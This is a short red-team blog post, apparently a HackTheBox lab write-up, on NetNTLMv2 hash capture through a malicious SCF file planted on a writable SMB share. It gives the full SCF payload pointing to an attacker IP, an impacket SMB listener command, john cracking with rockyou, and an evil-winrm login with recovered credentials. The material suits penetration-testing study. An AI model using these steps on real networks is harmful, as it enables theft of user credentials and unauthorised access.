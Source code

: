 ```yaml
---
title:  "using-a-scf-file-to-gather-hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


Have you ever been on a internal network assessment and discovered an unauthenticated writable Windows-based file share? Well, in addition to finding potentially sensitive information, you can abuse this to gather user hashes from users who are browsing the file share.

## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.

## Create a file
The code  can be placed inside a text file which then needs to be planted into a network share.

Saving as SCF file will make the file to be executed when the user will browse the file

Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.
```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Replace with your IP address of where you have Responder listening.

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

Next upload the file into the Desktop within the Public Folders.
The Public/Desktop folder is accessed every time any users logs in.
Therefore when the user logs in, the icon is requested from our attackers box, 
a challenge request is requested by the attacker, a challenger response is then returned to use with the NetNTLMv2.

## set listener 
set listener  to capture the hashes of the users that will browse the share
```
impacket-smbserver -debug -smb2support share /home/nored0x/Desktop/HTB/driver     
```
<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key

<img src="/img/fci/hash.PNG" alt="Getting-gz" width="1000" height="400"> 

## crack hash 
```
john hash -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


## connect with evil-winrm
```
./evil-winrm.rb -i 10.10.11.106 -u tony -p liltony 
download tool:https://github.com/Hackplayers/evil-winrm
``` 
 
<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 
                     
I finished this part waiting me in the next part.

